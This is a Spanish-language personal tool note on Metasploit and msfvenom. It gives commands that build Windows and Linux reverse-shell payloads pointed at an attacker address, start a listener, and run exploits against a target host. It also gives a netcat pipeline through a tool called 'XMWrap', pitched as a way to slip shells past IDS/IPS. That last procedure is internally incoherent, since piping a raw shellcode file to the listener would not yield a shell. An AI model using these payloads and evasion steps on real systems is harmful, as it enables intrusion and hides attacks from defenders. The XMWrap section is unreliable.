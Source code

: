 
---
- tags: #herramientas #acceso #payload #explotación #vulnerabilidades 
---
# Msfvenom

> **Msfvenom** es una herramienta de [[iCloudDrive/iCloud~md~obsidian/Git/Setting_Github/Herramientas/Metaesploit/Metasploit|Metasploit]] que permite generar y personalizar [[iCloudDrive/iCloud~md~obsidian/Git/Setting_Github/Herramientas/Metaesploit/Payload 📦/Payload|Payload]] para exploits.

## Instalación

```bash
sudo apt update && sudo apt install metasploit-framework
```

## Uso básico

Generar un payload para una shell inversa en Windows:

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f exe > shell.exe
```

Generar un payload para Linux en formato ELF:

```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f elf > shell.elf
```

---

# Metasploit

>**Metasploit** es un framework de pentesting que permite la explotación de vulnerabilidades, gestión de sesiones y generación de payloads.

## Instalación

```bash
sudo apt update && sudo apt install metasploit-framework
```

## Uso básico

Iniciar Metasploit (recomendado para primera vez):

```bash
msfdb run
```

Iniciar Metasploit:

```bash
msfconsole
```

Buscar un exploit:

```bash
search exploit_name
```

Cargar un exploit:

```bash
use exploit/path/to/exploit
```

Configurar opciones del exploit:

```bash
set RHOST 192.168.1.10
set LHOST 192.168.1.100
```

Ejecutar el exploit:

```bash
exploit
```

---

## Uso en relación a Payloads

Metasploit permite configurar y ejecutar payloads generados con **msfvenom**. Un ejemplo de ejecución con Meterpreter:

```bash
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.1.100
set LPORT 4444
exploit
```

Con esto, cuando la víctima ejecute el payload generado con **msfvenom**, se abrirá una sesión **Meterpreter** en Metasploit.

---

# XMWrap y su uso con Netcat

### ¿Qué es XMWrap?

> **XMWrap** es una utilidad que permite encapsular flujos de datos en **XML**, facilitando la transmisión de información estructurada entre procesos o redes.

En ciberseguridad, **XMWrap** se puede utilizar para ofuscar la comunicación de shells interactivas, dificultando su detección por sistemas de monitoreo.

---

## Uso de XMWrap con Netcat para recibir un payload de shell interactiva

Podemos utilizar **XMWrap** junto con **Netcat** para recibir una shell remota ofuscada en XML y decodificarla en el destino. A continuación, se muestra un ejemplo práctico:

### 1. Generar el payload con msfvenom

Para generar un **payload de shell inversa en formato RAW**, utilizamos **msfvenom**:

```
msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f raw > shell.raw
```

> **Explicación:**
> 
> - `-p linux/x64/shell_reverse_tcp` → Payload de shell inversa para Linux (64 bits).
>     
> - `LHOST=192.168.1.100` → IP del atacante.
>     
> - `LPORT=4444` → Puerto en el que recibiremos la conexión.
>     
> - `-f raw` → Formato sin codificar (RAW) para encapsularlo con XMWrap.
>

### 2. Enviar la shell con XMWrap

En la máquina víctima, ejecutamos:

```
cat shell.raw | xmwrap | nc 192.168.1.100 4444
```

> **Explicación:**
> 
> - `cat shell.raw` → Lee el payload generado.
>     
> - `xmwrap` → Encapsula los datos en formato XML.
>     
> - `nc 192.168.1.100 4444` → Envía la salida a la IP del atacante por el puerto 4444 con **Netcat**.
>     

---

### 3. Recibir la shell en la máquina atacante

Para recibir la conexión, usamos **Netcat** y desempaquetamos la información con **XMWrap**:

```
nc -lvp 4444 | xmunwrap
```

> **Explicación:**
> 
> - `nc -lvp 4444` → Escucha en el puerto 4444 en modo detallado (`-v` para verbose y `-p` para puerto).
>     
> - `| xmunwrap` → Decodifica la salida de **XMWrap**, obteniendo la shell interactiva limpia.
>     

Con esto, logramos obtener una **shell inversa interactiva**, evitando detección por IDS/IPS que analicen patrones tradicionales de tráfico de Netcat.

---

